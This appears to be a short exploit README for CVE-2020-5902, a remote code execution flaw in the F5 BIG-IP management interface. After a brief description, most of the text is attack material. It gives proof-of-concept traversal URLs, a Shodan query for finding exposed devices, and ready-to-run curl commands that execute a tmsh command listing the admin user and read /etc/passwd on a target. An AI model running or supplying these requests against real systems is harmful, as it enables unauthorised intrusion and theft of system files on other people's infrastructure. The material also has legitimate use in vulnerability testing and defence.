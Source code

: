 # CVE-2020-5902

## Description

In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), 
also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages.

## POC

#### GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
#### GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse

## Tools

- https://github.com/aqhmal/CVE-2020-5902-Scanner
- Shodan Query: title:"BIG-IP&reg;- Redirect"

## Exploit
```
curl -v -k  'https://TARGET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```
##### Read File:

```
curl -v -k  'https://TARGET/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
```
